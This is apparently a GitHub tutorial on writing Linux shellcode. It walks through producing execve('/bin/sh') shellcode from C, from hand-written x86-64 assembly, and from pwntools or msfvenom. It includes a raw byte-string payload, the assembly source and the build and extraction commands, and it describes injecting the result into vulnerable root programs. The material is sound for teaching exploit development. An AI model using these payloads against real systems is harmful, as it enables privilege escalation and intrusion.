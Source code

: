 # THE ART OF SHELLCODE

# what is a shellcode?
 to make simple, a shellcode is a set of instructions, a string of byte which represente a code that we want program
run for you. as you know, the CPU only understant and execute 0's and 1', a shellcode represente those 0's 1's which you want the program exec for you as hacker.

In many case, the purpouse of a shellcode is to pop up a shell. if you obtain a shell(root shell), you can do anything you want. but a shellcode can also be used to read a file , open network connection, make a backdor...
example: this string is a shellcode: "ijhh\x2f\x2f\x2fsh\x2fbin\x89\xe3h\x01\x01\x01\x01\x814\x24ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"



# When could i use a shellcode.
Hacker use shellcode to  exploit weakness in software and make that software execute instructions they control
if you can trigger a program to execute your shellcode, you can make this software execute any command for you.
imagine an instance where you get acces to a remote machine,you dont have permision to read sensitive file as you don't have permision. if you found a vulnerable program(program which is vuln to shelcode injection) which run root permission, you can exploit this to get root access. 


# how to write a shellcdoe:::
there is many way to write a shellcode. It is an art and you master it as long as you make pratice.
the purpose of this cours is to help reader become shellcoders.
it take time to become skilled in this field. it need many pratice. undertand assambled language is mandatory 

i will show you free way to write shellcode.

1 - #   write your program i C langage, compile it and  get the shellcode



2-  #    write your  shellcode in assembled langage, compile it

3 - #    use automate tool to write your shellcode. 

# let explain each of these method

# FROM C program to shellcode.
 I dont recommanded this methodology . because it make you very limited and in some case, you can not use it

how to do that.
    i suppose you know C programming Langage.
    - write your code in C program. 
    - compile your code
    - from the binary code, extract your shellcode

Example:
  /bin/sh shellcode
```
in main(){
execve("/bin/sh", NULL, NULL)
return 0;
}
```
compile the program: 
`` gcc -nostartfiles -o bin_sh bin_sh.c``

you can decompile the program with objdump to  get the assembled code of main function

``objdump -d -M intel bin_sh``

![C_program_2_shellcode](../images/bin_sh_c.png)
![C_program_2_shellcode](../images/objdump_result1.png)


# 
# time to  get the shellcode of this elf file:
to do that, i will use objcopy. a tool  to inspect, modify ELF file

cmd: ``objcopy --dump-section .text=raw_shellcode.txt bin_sh``

this will produce raw_shellcode.txt file containing your shellcode in raw format

![C_program_2_shellcode](../images/raw_shellcode.png)

in the next article, i will show you how to test your shellcode



# Method 2:
write your shellcode by hand.
that make difference betwen real pwners and followers
in order to do that, you need a good knowledgment of assembler langague.
if want to write shellcode for x86/amd, you must know those assembleur langage.

## Step:
1 - write your shellcode in assembler
2 -compile it to elf file
3 - test if the result elf file work as expect(do the job)
4 - extraction your shellcode from the elf file
5 - test your shellcode.
6 - exploit the program by injecting your shellcode.


# let do an example:
1 - # write a shellcode in assembler langage
 ```
    .global _start

_start:
    .intel_syntax noprefix
    #execve("/bin/sh". 0,0) shellcode
    mov rax, 0x3b  # execve syscall number
    mov rcx, 0x68732f6e69622f # "/bin/sh" string
    push rcx
    mov rdi, rsp # rsp is a pointer to /bin/sh so rdi will also be a pointer after
    xor rsi, rsi # arg1=0
    mov rdx, rsi # rg2=0
    syscall
    # exit(0) syscall
    mov rax, 0x3c
    xor rdi, rdi
    syscall

```

#NB : don't worry if you don't know how this code your, in the  following articles, we will learn all of them

2 - # compile your shellcode:
cmd: ``gcc -nostdlib --static -o shell_elf shellcode.s``
 -nostdlib : do not include standard libraries

-static: the binary will be compiled as static, it will contain all the necessaries to run without load shared object

-o : the output file

After that, you obtain  the shell_elf file and you can test it to see if it work. 

![C_program_2_shellcode](../images/asm_shell.png)


3 -# test the elf file
##### it work

4 - Extract shellcode from the result ELF file
    
    let decompile the file to see its asm code
cmd: ``objdump -d -M intel shell_elf``
 explaination: 
        -d : to decompile executable sections
        -M : asm syntax in which you want the result

![C_program_2_shellcode](../images/objdump_result2.png)


# now i will use objcopy to dump the text section 
CMD: ``objcopy --dump-section .text=asm_shellcode.txt shell_elf``

you obtain asm_shellcode.txt which contain your shellcode in raw format.
as you can see, this shellcode is very small and contain less null byte than the previous
size: 41 bytes

in the picture bellow, i use   a tester to test if the shellcode work.
if the nest article, i will show you how to write a tester and test your shellcode

![C_program_2_shellcode](../images/asm_shellcode.png)




# ther 3rd method:
    # automate tools:
you can use this approch to gain time.
there is may tool to generate a shellcode. but leet me tell you that it is mandatory to learn how to write your own shellcode bu hand.
in some situation, those automate tools will not produce the correct result. so you need to write your shellcode by hand

to do that, you can use:
- pwn tool
msfvenom

``pwn shellcraft sh -f raw  -o my_shell.raw``

# follow me on x.com:
@Fr33K3vin
